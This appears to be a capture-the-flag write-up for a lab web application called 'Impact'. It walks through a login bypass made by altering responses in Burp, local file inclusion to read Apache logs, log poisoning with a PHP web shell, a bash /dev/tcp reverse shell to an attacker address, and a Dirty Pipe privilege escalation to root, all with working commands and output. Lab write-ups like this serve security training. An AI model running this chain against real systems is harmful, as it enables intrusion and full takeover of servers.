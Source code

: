 #+title: Impact
#+author: gabriel

* intro
A hacker group organises cyber attacks against companies and offers the sensitive data they obtain for sale with cryptocurrency on the website called "Impact". This hacker group is increasing the list of target companies every day. Your task is to register as an ordinary customer on this website and collect information about the hacker group and its manager. Good luck in your mission!

* info gathering


#+begin_src sh
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_impact_hv-1760458064.state ...
[#>------------------] - 2m     19591/270037  75m     found:21      errors:4932
[##>-----------------] - 2m      3978/30000   28/s    http://impact.hv/
[##>-----------------] - 2m      3689/30000   27/s    http://impact.hv/js/
[#>------------------] - 2m      1784/30000   13/s    http://impact.hv/uploads/
[##>-----------------] - 2m      3770/30000   28/s    http://impact.hv/css/
[#>------------------] - 2m      2323/30000   18/s    http://impact.hv/fonts/
[>-------------------] - 2m      1461/30000   11/s    http://impact.hv/webadmin/
#+end_src

*admin email* ->
: zerotrace@secretmail.hv

access the application, create a user and log into the account, after logging in, send the payment request to the "hacker" (the admin)

Is possible to bypass the login page with the /webadmin/ page, when we access /webadmin/ we are redirect to the /webadmin/login

With Burp, if we modify the response status code from 302 to 200, we bypass the login page. But this is possible with proxy intercet, where we can modify the response before reach the browser.

To modify and continue with the modified response, we need to create a match and replace rule on proxy settings ->

Create an rule where all 302 Response headers go to 200

After login adminpanel, accept the request from your normal user created early.
*LFI to read access.log* ->
#+begin_src sh
GET /search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c%3d HTTP/1.1
Host: impact.hv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://impact.hv/profile.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=seccun2ljsqg1ot2el57pvngf0
Connection: keep-alive
#+end_src

*test injection with User-Agent header* ->
#+begin_src sh
[19:36][]~ ✮ curl -v 'http://impact.hv/' -A "<?php echo 'Hello World'; ?>"
 Host impact.hv:80 was resolved.
 IPv6: (none)
 IPv4: 172.20.24.170
   Trying 172.20.24.170:80...
 Established connection to impact.hv (172.20.24.170 port 80) from 10.8.58.60 port
 33472
 using HTTP/1.x
> GET / HTTP/1.1
> Host: impact.hv
> User-Agent: <?php echo 'Hello World'; ?>
> Accept: /
>
 Request completely sent off
< HTTP/1.1 200 OK
< Date: Tue, 14 Oct 2025 22:40:10 GMT
< Server: Apache/2.4.59 (Debian)
< Set-Cookie: PHPSESSID=vmq5uvrhdsldur0bh8lukk9kl9; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 5235
< Content-Type: text/html; charset=UTF-8
<
<!DOCTYPE html>
<html lang="en">
<head>
#+end_src

Checking the access.log file again, you can see that the injection was successful ->
#+begin_src javascript
10.8.58.60 - - [14/Oct/2025:18:37:57 -0400] "GET /search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c%3d HTTP/1.1" 200 1098 "http://impact.hv/profile.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36"
10.8.58.60 - - [14/Oct/2025:18:40:10 -0400] "GET / HTTP/1.1" 200 5576 "-" "Hello World"
#+end_src

It was possible to identify that this simple php payload was executed, but when trying something like system() or others, the server does not process correctly and generates 500 internal error

using this payload I managed to inject without causing an error ->
: curl -v -A "<?php system(\$_GET['cmd']); ?>" http://impact.hv/

and now the RCE is possible ->
#+begin_src javascript
10.8.58.60 - - [14/Oct/2025:19:10:40 -0400] "GET /search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c%3d HTTP/1.1" 200 1060 "http://impact.hv/profile.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36"
10.8.58.60 - - [14/Oct/2025:19:11:00 -0400] "GET / HTTP/1.1" 200 5576 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
#+end_src

*get reverse shell* ->
: bash -c 'bash -i >& /dev/tcp/172.20.24.106/4444 0>&1'

: curl "http://impact.hv/search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c=&cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/172.20.24.106/4444%200>%261'"

*improve the reverse shell with bash* ->
: python3 -c 'import pty; pty.spawn("/bin/bash")'

*to get root we need explore the dirty-pipe Vuln CVE-2022-0847* ->
: https://haxx.in/files/dirtypipez.c

*exploit* ->
#+begin_src sh
www-data@debian:/var/www/html$ wget http://10.8.58.60:1666/drtpipe.c
wget http://10.8.58.60:1666/drtpipe.c
--2025-10-14 20:29:34--  http://10.8.58.60:1666/drtpipe.c
Connecting to 10.8.58.60:1666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7335 (7.2K) [text/x-csrc]
Saving to: ‘drtpipe.c’

drtpipe.c           100%[===================>]   7.16K  --.-KB/s    in 0s

2025-10-14 20:29:34 (29.8 MB/s) - ‘drtpipe.c’ saved [7335/7335]
www-data@debian:/var/www/html$ gcc drtpipe.c -o drtpipe
gcc drtpipe.c -o drtpipe
www-data@debian:/var/www/html$ ./drtpipe
./drtpipe
Usage: ./drtpipe SUID
www-data@debian:/var/www/html$ ./drtpipe /usr/bin/passwd
./drtpipe /usr/bin/passwd
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root

# cat /root/Chat.txt
#+end_src
